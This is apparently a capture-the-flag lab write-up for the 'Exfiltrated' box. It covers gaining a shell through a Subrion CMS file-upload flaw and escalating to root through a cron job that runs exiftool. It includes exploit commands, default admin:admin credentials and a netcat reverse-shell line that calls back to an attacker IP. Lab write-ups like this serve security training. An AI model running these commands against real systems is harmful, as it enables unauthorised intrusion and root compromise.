 # Exfiltrated \[Easy]

## Report

Subrion CMS version 4.21 is vulnerable to authenticated file upload RCE. A script is being run every minute as root via crontab which fetches metadata from .jpg files in the 'uploads' directory. Transfer malicious image file and wait for a minute for reverse shell to spwan as root.

## Cheatsheet

```
https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE
sudo python3 SubrionRCE.py -u http://exfiltrated.offsec/panel/ -l 'admin' -p 'admin'
busybox nc 192.168.45.234 8000 -e /bin/sh

cat /etc/crontab
https://github.com/UNICORDev/exploit-CVE-2021-22204.git
python3 exploit-CVE-2021-22204.py -s 192.168.45.234 8001
```

{% code title="image-exif.sh" %}
```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
image-exif.sh
```
{% endcode %}

## Loot

### Enumeration

192.168.178.163

Subrion CMS v4.2.1 vulnerable to authenticated RCE via file upload&#x20;

### Attack Vectors

.phar file extension not included in blacklist of .htaccess file of Subrion CMS, this is leveraged to obtain a webshell

### PrivEsc

exiftool running as root via crontab, google search shows code execution for versions > 7.44

### Creds

admin:admin \[CMS login]

### Proof

{% embed url="https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-exiftool-privilege-escalation" %}
